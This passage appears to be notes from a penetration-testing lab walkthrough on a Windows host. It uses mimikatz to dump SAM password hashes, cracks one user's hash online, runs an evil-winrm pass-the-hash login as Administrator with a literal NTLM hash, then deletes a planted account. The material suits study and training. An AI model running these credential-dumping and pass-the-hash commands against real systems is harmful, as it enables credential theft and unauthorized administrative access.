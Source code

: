 ![11transfer_pivot2](imgs/11transfer_pivot2.png)

Use mimikatz.exe to gain the hash of administrator
- In the cmd.exe: `c:\users\public\mimikatz-ll2022.exe`
```
privilege::debug
token::elevate
lsadump::sam
```
- We can get the hashes of administrator and thomas.
	- Save them by `vi creds.txt`
- Then, we can just sign out of the pwnuser in the xfreerdp in 10.200.90.150 (git-serv)
- Extract the clear-text password of thomas on https://crackstation.net/
	- `echo "thomas:i<3ruby" >> creds.txt`

Pass-the-hash attack by evil-winrm
- `evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.90.150`
- Clean up the pwnuser account
```
net user pwnuser /delete

net user
```
